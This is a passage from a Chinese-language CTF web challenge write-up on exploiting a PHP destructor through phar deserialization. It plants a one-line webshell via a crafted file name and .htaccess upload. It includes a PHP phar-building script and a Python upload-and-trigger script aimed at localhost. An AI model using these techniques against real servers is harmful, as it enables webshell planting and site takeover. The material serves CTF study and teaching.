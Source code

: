 既然这样，就看一下析构函数怎么利用。其功能是将文件地址分别输出和写入另一个文件中。这样说来，就有两个文件写入的地方了，`upload()`那里过滤很严格，但是析构函数好像没有做过滤，只要使`userdir`属性为一句话木马的内容就可以了。

但是上传phar文件的时候突然意识到，文件中不能包含'<?'。这就要利用转字符串函数了，它会返回一个字符串，包含指定目录下的所有文件。可以尝试上传一个以一句话木马为名的文件，这样就完成了写文件。

上传之后是一个txt文件，可以再上传.htaccess文件修改服务器处理规则。

然后还有一个问题，就是提示说析构函数的工作目录会改变，也就是说，写文件时需要提供一个绝对路径，但我们并不知道网站根目录的目录名，之前提到析构函数有一个输出功能，简单修改一下phar文件的内容就可以获得www目录下的所有文件名了。

下面正式开始，首先是获取网站根目录，先随意上传一个文件，获取自己IP的散列值，然后生成phar文件：

```php
<?php
class dir {
    public $userdir;
    public $url;
    public $filename;
}

$a = new dir();
$a->userdir = "../"
$b = new dir();
$b->userdir = $a;

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER();?>;");
$phar->setMetadata($b);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>

```

然后上传并用phar://调用：

```python
import requests
import base64

action = "upload"

f = open("phar.phar", "rb")
fr = f.read()
url = "data:image/png;base64,%s" % base64.b64encode(fr).decode()
print(url)
filename = "1.png"

r = requests.post("http://localhost/index.php", {"action": action, "url": url, "filename": filename})
print(r.text)
print()


url = "phar://upload/{MD5_IP}/1.png"
print(url)
filename = "2.png"

r = requests.post("http://localhost/index.php", {"action": action, "url": url, "filename": filename})
print(r.text)
```
